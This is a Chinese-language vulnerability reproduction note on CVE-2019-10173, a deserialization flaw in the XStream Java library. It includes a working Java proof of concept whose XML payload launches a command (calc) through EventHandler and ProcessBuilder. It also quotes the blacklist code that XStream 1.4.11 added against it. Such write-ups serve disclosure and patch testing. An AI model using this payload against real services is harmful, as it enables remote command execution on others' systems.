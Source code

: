 # （CVE-2019-10173）Xstream 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3286](https://www.zhihuifly.com/t/topic/3286)

# （CVE-2019-10173）Xstream 远程代码执行漏洞

## 一、漏洞简介

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 二、漏洞影响

XStream <= 1.4.6

XStream = 1.4.10

## 三、复现过程

### poc

```
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;

import java.io.IOException;

import java.util.Set;

import java.util.TreeSet;

/**

*   Created by cfchi on 2019/7/26.

    */

    public class Main {

    public static String expGen(){

    XStream xstream = new XStream();

    Set<Comparable> set = new TreeSet<Comparable>();

    set.add(“foo”);

    set.add(EventHandler.create(Comparable.class, new ProcessBuilder(“calc”), “start”));

    String payload = xstream.toXML(set);

    System.out.println(payload);

    return payload;

    }

    public static void main(String[] args) throws IOException {

    expGen();

    XStream xStream = new XStream();

    String payload = “<sorted-set>\n” +

    "    <string>foo</string>\n" +

    "    <dynamic-proxy>\n" +

    "    <interface>java.lang.Comparable</interface>\n" +

    "        <handler class=“java.beans.EventHandler”>\n" +

    "            <target class=“java.lang.ProcessBuilder”>\n" +

    "                <command>\n" +

    "                    <string>cmd.exe</string>\n" +

    "                    <string>/c</string>\n" +

    "                    <string>calc</string>\n" +

    "                </command>\n" +

    "            </target>\n" +

    "     <action>start</action>"+

    "        </handler>\n" +

    "    </dynamic-proxy>\n" +

    “</sorted-set>\n”;

    xStream.fromXML(payload);

    }

    } 
```

### 1.4.7版本白名单

![image](img/87ce7d153d489d43d499fc9a8f100e07.png)

### 1.4.10版本，黑名单未开启

![image](img/6140e2f2a630e0354e98b97c2f0f80c8.png)

### 1.4.11版本，黑名单开启

#### 黑名单

```
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

```
public boolean canConvert(Class type) {
    return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized &amp;&amp; type != null &amp;&amp; (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
}

public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    throw new ConversionException("Security alert. Marshalling rejected.");
}

public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    throw new ConversionException("Security alert. Unmarshalling rejected.");
} 
``` `}` 
```

![image](img/63904bf8ee8bba9301827b25a3c83195.png)

## 参考链接

> http://www.polaris-lab.com/index.php/archives/658/
